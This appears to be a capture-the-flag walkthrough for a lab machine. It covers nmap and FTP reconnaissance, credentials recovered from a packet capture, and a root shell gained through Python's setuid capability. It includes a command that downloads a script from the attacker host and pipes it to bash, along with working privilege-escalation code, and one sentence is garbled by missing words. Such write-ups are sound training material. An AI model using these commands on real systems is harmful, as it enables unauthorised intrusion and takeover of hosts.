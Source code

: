 We start with nmap
```
nmap -sC -sV {victim ip}
```

We use FTP to login to the victim's box. 

```
ftp {victim's ip}
```
The login with anonymous access fails, so we attempt to login through the HTTP server.

We can visit the web application via `{ip}:80` and there is a data dashboard there without login.

When opening the web address `10.10.10.245/data/0` and capturing the output in wireshark, we get the credentials `nathan:Buck3H4TFORM3!`, we use this to `ssh` into the victim's box.

### Privilege Escalation

On our local we download linpeas and run `sudo python3 -m http.server 80` so we can get it via `curl` from the victim's box.

```
curl http://10.10.14.24/linpeas.sh | bash
```

After running LinPEAS on the attacking box we get

```
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

The report contains an interesting entry for files with capabilities. The is found to have and , which isn't the default setting. According to the documentation, allows the process to gain setuid privileges without the SUID bit set. This effectively lets us switch to UID 0 i.e. root. The developer of Cap must have given Python this capability to enable the site to capture traffic, which a non-root user can't do.

The following Python commands will result in a root shell:

```
import os  
os.setuid(0) 
os.system("/bin/bash")
```

It calls os.setuid() which is used to modify the process user identifier (UID).